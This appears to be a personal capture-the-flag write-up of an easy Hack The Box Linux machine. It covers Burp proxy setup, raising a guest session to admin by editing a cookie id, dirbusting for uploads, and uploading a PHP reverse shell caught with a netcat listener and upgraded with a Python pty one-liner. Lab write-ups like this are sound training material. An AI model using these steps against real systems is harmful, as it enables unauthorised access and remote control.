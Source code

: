 # TO DO
- [ ] More about Cookies
- [ ] Esc + Esc = sudo. [Link](https://youtu.be/YmZLdJRBKv0?t=2578https://youtu.be/YmZLdJRBKv0?t=2578)
- [ ] Check all


# Intro
| Dificulty | OS | Start Date | End Date | 
|---|---|---|---|
| Very Easy | Linux | 03/06/2022 | 03/06/2022 |


# Process
1. Common enumeration.
2. Use Burp Suite to find new directories.
3. Manipulate cookies to be admin and upload files.
4. Dirbust the site to find where are the uploads located.
5. Upload reverse shell 


# Burpsuite
1. Configure Firefox to send traffic trought the proxy.
2. Settings > Search "Proxy" > Settings.
3. Change to Manual proxy. Enter Loopback @IP and port 8080
4. Disable interception in Burp as it's 
5. Proxy > Intercept > Intercept in on (Disable)


# Cookies 
Found that admin was id=34322 so change the Guest id to simulate he's the admin.
![[Pasted image 20220530192240.png]]


# Reverse Shell
Located in `/usr/share/webshells/php/php-reverse-shell.php`
Change port and ip. Upload the file. Dirbust the site again to find `.php`.
```bash
$ip = '10.10.15.56';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

Set up a netcat listener on the same port.
```bash
$ nc -lvnp 1234
```

In order to have a functional shell can execute this command:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Search for common directories. This is a Web Server so is a good idea to check `/var/www/html/xxx/`

!!! PROBLEMES DE VPN 


# Tags
#HTB 